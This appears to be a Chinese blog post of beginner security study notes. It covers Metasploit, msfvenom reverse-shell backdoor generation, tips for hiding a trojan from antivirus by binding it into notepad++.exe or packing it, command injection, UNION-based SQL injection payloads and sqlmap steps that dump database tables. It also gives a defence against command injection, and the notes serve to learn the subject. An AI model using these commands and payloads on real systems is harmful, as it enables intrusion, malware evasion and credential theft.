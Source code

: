 ```yaml
---
title: 计算机网络安全
category: 笔记
tags:
  - 网络安全
banner_img: /img/banner/net_security.jpg
index_img: /img/cover/net_security.jpg
excerpt: 计算机网络安全入门
date: 2023-01-05 11:45:21
---
```

## Kali渗透工具-metasploit

msf使用法则：

- 使用模块
- 配置模块必选项
- 运行模块

```bash
# 启动metasploit命令行
$ msfconsole

# 搜索模块
# 永恒之蓝漏洞：search ms17_010
> search 模块名

# 使用模块
# 永恒之蓝漏洞：use 0
> use 模块编号#/模块Name

# 查看模块配置项（配置必选项）
# exploit options：攻击利用脚本
# payload options：攻击载荷
> show options

# 配置
# 例如：set RHOST 127.0.0.1
> set 配置项Name 值

# 运行模块
# 控制台输出win代表入侵成功，此时进入靶机控制台
> run
```

## 生成远程控制木马-msfvenom

- msfvenom用来生成后门，在目标机上执行后门，在本机监听上线
- 在shell中执行

```bash
# 生成windows可执行程序后门
# -p：payload
# payload_name：系统/架构/作用/方式
# lhost、lport：攻击机的ip和端口
# -f：后面跟文件格式
# exe：windows可执行文件
# -o：后面跟文件名
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -o demo.exe

# 运行后门监控handler程序
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set lhost 127.0.0.1（与上面生成后门内的lhost一致）
$ set lport 9999（与上面生成后门内的lport一致）
```

**绕过杀毒软件的技巧：**

- 捆绑木马：将木马捆绑到其他程序上

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -x notepad++.exe -o notepad++.exe
```

- 加壳：使用加壳工具（Themidaf），让生成的可执行文件不被杀毒软件识别

## 命令连接符

```bash
# 无论cmd1是否执行成功，cmd2将被执行
cmd1|cmd2

# 无论cmd1是否执行成功，cmd2将被执行
cmd;cmd2

# 无论cmd1是否执行成功，cmd2将被执行
cmd&cmd2

# 仅在cmd1执行失败时执行cmd2
cmd||cmd2

# 仅在cmd1执行失成功时执行cmd2
cmd&&cmd2
```

### 常见cmd命令

```bash
# 查看当前用户名
> whoami

# 查看网卡信息
> ipconfig

# 增加一个用户名为username密码为password的新用户
> net user [username][password] /add

# 查看进程及端口
> netstat -ano
```

## 命令注入

**原理：**
服务器提供执行本地命令的接口，比如用户输入ip，服务器执行ping ip操作。因为有命令连接符&的存在，用户可以输入诸如127.0.0.1 & whoami的指令，在&符右边执行任何想要执行的指令。该漏洞较为低级，关键在于服务器不要直接暴露执行命令的接口，或者过滤命令连接符：将命令连接符判空或用户输入命令连接符则终止执行
**完美防御：**
1.取出用户输入的
2.将用户输入的ip根据.分割成4个部分
3.分别判断4个部分是否为数字以及数组大小是否为4，不成立则拒绝访问
4.把验证完的数字再拼接起来，执行

## sql注入

**原理：**
用户改变原有sql语句

```sql
# 输出错误信息则证明sql语句生效，存在SQL注入漏洞
select first, second from users where user_id = '1' and 1=2#

# 查询当前表有几个字段，从1开始依次执行，直到输出错误
select first, second from users where user_id = '1' order by 1#

# 查询当前数据库连接用户和数据库名称
select first, second from users where user_id = '1' union select user(),database()#

# 查询该数据库中所有的表
select first, second from users where user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema = '上面查询到的数据库名'#

# 查询user表中信息
select first, second from users where user_id = '1' union select username,password from users#
```

**利用SQLmap自动化SQL注入利用过程：**

```bash
# 第一步：检测漏洞
# u：需要检测网站的url地址
# --cookie：网站的cookie信息，免登录
$ sqlmap -u "xxx" --cookie="xxx"

# 第二步：获取数据库名
# --dbs：database server 获取所有数据库名
$ sqlmap -u "xxx" --cookie="xxx" --dbs 

# 第三步：获取指定数据库表
$ sqlmap -u "xxx" --cookie="xxx" -D 数据库名 --tables

# 第四步：获取指定数据的表信息
$ sqlmap -u "xxx" --cookie="xxx" -D 数据库名 -T 表名 --columns

# 第五步：获取指定数据的表数据
$ sqlmap -u "xxx" --cookie="xxx" -D 数据库名 -T 表名 --dump
```

## 端口扫描

端口扫描的目的：
发现目标主机开放的端口极其对应开放的服务
使用Zenmap输入靶机ip扫描
